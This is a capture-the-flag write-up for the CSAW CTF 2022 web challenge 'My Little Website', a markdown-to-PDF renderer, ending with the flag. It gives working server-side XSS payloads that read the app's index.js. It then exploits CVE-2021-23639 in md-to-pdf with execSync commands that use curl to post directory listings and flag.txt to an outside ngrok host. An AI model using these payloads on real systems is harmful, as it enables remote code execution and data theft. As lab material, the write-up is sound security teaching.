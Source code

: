 ```yaml
---
date: 2022-09-14T00:00:00+01:00
title: CSAW CTF 2022 - My Little Website
summary: Writeup for My Little Website web challenge of CSAW CTF 2022.
categories: ["web"]
difficulty: "easy"
tags: ["XSS", "RCE", "Node.js"]
---
```



# My Little Website

> Description: I am new to programming and made this simple pdf creater website here, hopefully it is secure enough :) ... [http://web.chal.csaw.io:5013](http://web.chal.csaw.io:5013)

The challenge comes as a server-side PDF rendering website, and we can write markdown.\
First thing, let's check for XSS:

```javascript
<script> document.write(window.location) </script>
```

<img src="./img/xss1.png">

And we find out that it's vulnerable to Server-Side XSS, as we're not injecting code in the webpage (client-side), instead we executing code on the server-side of the application.\
Let's try something more interesting:

```javascript
<script>document.write('<iframe src="/"></iframe>')</script>
```

<img src="./img/xss2.png">

We're inside the `/chal` directory. We also understand that it's a Node.js application, and `index.js` seems definitely something interesting for us, let's try to read it:

```javascript
<script>
fetch('index.js')
  .then(response => response.text())
  .then(text => document.write(text))
</script>
```

<img src="./img/xss3.png">

That's a lot of info, but what's most important is the `mdToPdf` package. With a quick search we'll know that the version used by the application is vulnerable to CVE-2021-23639 and we can achieve RCE: [https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880).

```javascript
---js
require('child_process').execSync('ls -la > /tmp/ls.txt && curl -d @/tmp/ls.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<img src="./img/xss4.png">

No flag here, let's try to look one directory above:

```javascript
---js
require('child_process').execSync('ls -la .. > /tmp/ls.txt && curl -d @/tmp/ls.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<img src="./img/xss5.png">

Here we go, read flag.txt:

```javascript
---js
require('child_process').execSync('curl -d @../flag.txt http://06f6-151-62-28-161.eu.ngrok.io')
---
```

<img src="./img/xss6.png">

Flag: `CTF{pdf_c0nt1nu3s_70_5uCK}`
